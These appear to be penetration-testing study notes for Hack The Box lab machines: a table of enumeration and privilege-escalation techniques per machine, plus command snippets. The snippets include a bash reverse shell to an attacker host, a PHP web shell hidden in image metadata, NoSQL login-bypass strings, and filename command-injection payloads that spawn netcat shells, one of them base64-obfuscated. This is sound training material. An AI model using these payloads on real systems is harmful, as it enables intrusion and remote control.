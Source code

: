 ### Machines

| Machine | Enumeration | Privilege Escalation |
| ------------- | ------------- | ------------- |
| Admirer | Adminer MySQL(local) | Hijacking Python Library | 
| Armageddon | Drupal (2018-7600) | binary snap |
| Backdoor | wordpress LFI proc gdbserver | screen |
| Blocky | dirb javadecompilers wordpress | sudo list |
| Blunder | feroxbuster Extensions [txt] bludit | sudo versions before 1.8.28 |
| Brainfuck | wordpress plugin smtp pop3 | Cryptography |
| Cronos | subdomain wfuzz| crontab |
| Doctor | [ssti-payloads](https://github.com/payloadbox/ssti-payloads) | Splunk |
| Forge | SSRF subdomain ftp | sudo list Python Debugger pdb |
| Forlic | playsms Ook! | BOF |
| Haircut | dirb medium.txt writeable uploads folder | Unknown SUID binary screen |
| Horizontall | wfuzz top1million-110000 strapi | active port 8000 ```local CVE``` ssh tunnel |
| Irked | irc-unrealircd-backdoor | LinPEAS Unknown SUID binary |
| *Jarvis | SQLi phpmyadmin 4.8 RCE | python command injection & systemctl binary |
| Knife | firefox wappalyzer [PHP 8.1.0](https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/backdoor_php_8.1.0-dev.py)| upgrade shell & sudo list |
| Lame | distccd | nmap |
| *Luanne | nmap Supervisor & robots.txt weather | BSD doas & netpgp backup file |
| Magic | [SQLi](https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/) bypassing login & <br> File upload bypass [PHP getimagesize()](https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application/file-upload-bypass) | mysqldump & Unknown SUID binary sysinfo |
| *Mango |  certificate subdomains & <br> [enumerate](https://github.com/an0nlk/Nosql-MongoDB-injection-username-password-enumeration) credentials of nosql-injection <br> (*Not sure if you can use this script in the exam), reuse | jjs, write root SSH public key | 
| Mirai | nmap, pi.hole, ssh | sudo list, mount, strings |
| Networked | File upload bypass [PHP getimagesize()](https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application/file-upload-bypass), <br> php command injection | *sudo list |
| Nibbles | page source, directory | sudo list |
| *NineVeh | brute force attack http & https, phpLiteAdmin | crontab, chkrootkit |
| OpenAdmin | OpenNetAdmin ||
(*):review before the exam

### Additional command notes

Used in ```Knife``` for upgrade shell

```
/bin/bash -c '/bin/bash -i >& /dev/tcp/<attacker ip>/<attacker port> 0>&1'
```

Used in ```Luanne``` 

authenticate

```
curl -s http://127.0.0.1:3001/<folder>/ -u <user>:<password>
```

Find the open port

```
netstat -punta || ss -nltpu || netstat -anv
```

Used in ```Magic``` 

image file upload bypass

```
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' file.jpg
```

dump mysql database data without using mysql client tool

```
mysqldump -u root -p database_name > database_name.sql
```

Used in ```Mango```

[nosql-injection](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/nosql-injection.md): basic authentication bypass

```
# change post data
username[$ne]=toto&password[$ne]=toto
username[$regex]=.*&password[$regex]=.*
username[$exists]=true&password[$exists]=true
```

Used in ```Mirai```

```
# check partition
strings /dev/sdb
```

Used in ```Networked```

command injection

```
# method1: vaild file name
echo "" > "; nc -c bash 192.168.0.1 4444 ;"
# method2: use base64 encoding format to avoid file name checking
echo nc -e /bin/bash 192.168.0.1 4444 | base64 -w0
echo "" > "a; echo bmMgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguMC4xIDQ0NDQK | base64 -d | sh; b"
```

[base64](https://linux.die.net/man/1/base64)

```
-w, --wrap=COLS
    Wrap encoded lines after COLS character (default 76). Use 0 to disable line wrapping.
-d, --decode
    Decode data.
-i, --ignore-garbage
    When decoding, ignore non-alphabet characters.
--help
    display this help and exit
--version
    output version information and exit
```

Used in ```Nineveh```

```
# check information in image file
strings -n 20 <image file> 
# extract known file types 
binwalk <image file>
binwalk -e <image file>
```
